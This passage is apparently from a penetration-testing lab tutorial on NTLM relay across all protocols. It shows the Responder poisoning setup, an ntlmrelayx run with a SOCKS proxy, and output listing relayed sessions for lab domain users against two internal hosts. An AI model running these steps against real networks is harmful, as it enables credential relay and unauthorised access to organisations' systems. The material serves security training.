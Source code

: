 ## NTLM Relay over All Protocols

`ntlmrelayx` supports the powerful `all` wildcard for target definition; instead of abusing one specific service/user on the relay targets, we can abuse every relayed connection, regardless of the service/user. First, we will modify the relay target definition to use the `all://` scheme:

```
cat relayTargets.txt

all://172.16.117.50
all://172.16.117.60
```

Then, we need to set all of `Responder`’s servers to `Off` and run it to poison broadcast traffic:

```
sed -i '4,18s/= On/= Off/g' Responder.conf
sudo python3 Responder.py -I ens192
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [OFF]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [OFF]
<SNIP>
```

Subsequently, we will run `ntlmrelayx` with the `-socks` option to make it add to its SOCKS server each authenticated session it can establish with the relay targets:

```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks

Impacket v0.11.0 - Copyright 2023 Fortra

<SNIP>
[*] Running in relay mode to hosts in targetfile
[*] SOCKS proxy started. Listening at port 1080
[*] SMB Socks Plugin loaded..
[*] IMAPS Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx>  * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
<SNIP>
[*] SMBD-Thread-39: Connection from INLANEFREIGHT/[email protected] controlled, attacking target http://172.16.117.50
[*] SMBD-Thread-40: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smtp://172.16.117.50
[*] SMBD-Thread-41: Connection from INLANEFREIGHT/[email protected] controlled, attacking target smb://172.16.117.50
[*] Authenticating against smb://172.16.117.50 as INLANEFREIGHT/JPEREZ SUCCEED
[*] SOCKS: Adding INLANEFREIGHT/[email protected](445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-41: Connection from INLANEFREIGHT/[email protected] controlled, attacking target rpc://172.16.117.50
<SNIP>
stopservers
[*] Shutting down HTTP Server
[*] Shutting down SMB Server
[*] Shutting down RAW Server
[*] Shutting down WCF Server
[*] Relay servers stopped
```

After waiting for a while and stopping the relay servers with the `stopservers` command, we will notice that `ntlmrelayx` established various authenticated sessions when using the `socks` command:

```
ntlmrelayx> socks

Protocol  Target         Username              AdminStatus  Port
--------  -------------  --------------------  -----------  ----
SMB       172.16.117.50  INLANEFREIGHT/JPEREZ  FALSE        445
SMB       172.16.117.50  INLANEFREIGHT/NPORTS  FALSE        445
SMB       172.16.117.50  INLANEFREIGHT/RMONTY  FALSE        445
SMB       172.16.117.50  INLANEFREIGHT/PETER   TRUE         445
HTTPS     172.16.117.50  INLANEFREIGHT/RMONTY  N/A          1433
SMB       172.16.117.60  INLANEFREIGHT/RMONTY  FALSE        445
SMB       172.16.117.60  INLANEFREIGHT/NPORTS  FALSE        445
SMB       172.16.117.60  INLANEFREIGHT/JPEREZ  FALSE        445
SMB       172.16.117.60  INLANEFREIGHT/PETER   FALSE        445
MSSQL     172.16.117.60  INLANEFREIGHT/RMONTY  N/A          1433
MSSQL     172.16.117.60  INLANEFREIGHT/NPORTS  N/A          1433
MSSQL     172.16.117.60  INLANEFREIGHT/JPEREZ  N/A          1433
MSSQL     172.16.117.60  INLANEFREIGHT/PETER   N/A          1433
```

As we learned earlier in this section, we can abuse these authenticated sessions that `ntlmrelayx` holds in its SOCKS server by tunneling our tools via `proxychains`.